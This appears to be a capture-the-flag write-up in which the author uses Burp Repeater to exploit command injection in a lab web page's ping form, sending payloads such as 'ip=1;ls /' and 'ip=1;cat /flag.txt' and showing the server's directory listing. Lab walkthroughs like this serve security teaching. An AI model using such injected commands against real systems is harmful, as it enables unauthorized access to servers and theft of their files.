 ## Challenge

Try using request repeating to be able to quickly test commands. With that, try looking for the other flag.

## Solution

On Burp Repeater, I send the request to add just a number, like 1 to the ping function on the web page.

I modify the body on repeater to `ip=1;ls ../` and I see the result is `html` so let's, just try to check the list of foles on the root directory, by writing `ip=1;ls /`.

The result is:

```sh
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

So there is another `flag.txt` and modify the body to `ip=1;cat /flag.txt` and the flag is `c`.